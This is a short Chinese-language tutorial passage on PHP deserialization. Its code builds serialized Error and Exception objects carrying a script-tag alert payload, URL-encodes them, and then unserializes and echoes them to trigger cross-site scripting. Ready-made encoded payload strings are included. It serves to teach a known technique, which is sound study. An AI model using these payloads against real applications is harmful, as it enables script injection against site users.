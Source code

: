 ```php
<?php
$a = new Error("<script>alert(1)</script>");
$b = serialize($a);
echo urlencode($b);

//Test
$t = urldecode('O%3A5%3A%22Error%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A25%3A%22%3Cscript%3Ealert%281%29%3C%2Fscript%3E%22%3Bs%3A13%3A%22%00Error%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A18%3A%22%2Fusercode%2Ffile.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A2%3Bs%3A12%3A%22%00Error%00trace%22%3Ba%3A0%3A%7B%7Ds%3A15%3A%22%00Error%00previous%22%3BN%3B%7D');
$c = unserialize($t);
echo $c;
```

![img](assets/804631-20180316165139761-1813736165.jpg)



#### 例子



### Exception类构造xss

适用于php5、7版本

开启报错的情况下:

```php
<?php
$a = new Exception("<script>alert(1)</script>");
$b = serialize($a);
echo urlencode($b);

//Test
$c = urldecode('O%3A9%3A%22Exception%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A25%3A%22%3Cscript%3Ealert%281%29%3C%2Fscript%3E%22%3Bs%3A17%3A%22%00Exception%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A18%3A%22%2Fusercode%2Ffile.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A2%3Bs%3A16%3A%22%00Exception%00trace%22%3Ba%3A0%3A%7B%7Ds%3A19%3A%22%00Exception%00previous%22%3BN%3B%7D');
echo unserialize($c);
```
